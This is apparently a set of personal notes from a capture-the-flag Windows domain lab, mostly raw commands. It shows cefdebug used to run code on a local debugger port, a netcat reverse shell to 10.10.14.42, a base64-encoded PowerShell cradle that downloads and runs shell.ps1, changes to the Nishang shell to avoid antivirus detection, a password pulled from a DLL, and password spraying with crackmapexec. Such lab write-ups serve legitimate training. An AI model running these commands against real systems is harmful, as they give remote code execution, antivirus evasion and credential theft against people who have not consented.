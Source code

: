 ```bash
## query, shortest path to domain admin

## check node info , first degree group member

# local enum
## get-process  check process, code 
get-process

## port local,  port periodly ooen.
netstat -an | findstr 127

# CEFdebug, get shell.
pxc wget https://github.com/taviso/cefdebug/releases/download/v0.2/cefdebug.zip

## scan local machine
.\cef.exe

## get shell
## not work, nc detected by av
.\cef.exe --code "process.mainModule.require('child_process').exec('C:\\windows\\system32\\spool\\drivers\\color\\n.exe 10.10.14.42 9001 -e cmd')" --url ws://127.0.0.1:49900/4385feda-aac1-4c7e-8215-ad3c0a838358

## nishang shell; Delete the help msg and change function name to bypass av
## iconv utf-16LE and base64, deal with the quote things.
echo "IEX(new-object net.webclient).downloadstring('http://10.10.14.42/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

## always test your shell code, especially encoded powershell.
## check the encoded shell 
powershell -enc base64 encoded things

powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==

## works
.\cef.exe --code "process.mainModule.require('child_process').exec('powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==')" --url  ws://127.0.0.1:17521/143e873e-4592-4a72-8765-27d20b778fc0

## rlwrap nc ; check rlwrap later

-- shell cyork
# bloodhound 
## check node info
## shortest path to xxx from owned 

# local enum
## check web root, if got web shell IIS user, may impersonate
type web.config
echo test > text  

## check bin, download dll file. multimasterapi.dll
strings multimasterapi.dll -e l ## got password

crackmapexec smb $tip -u domainuser.list -p 'D3veL0pM3nT!'

-- shell sbauer
# bloodhound 
## sbauer have genericwrite to jorden

```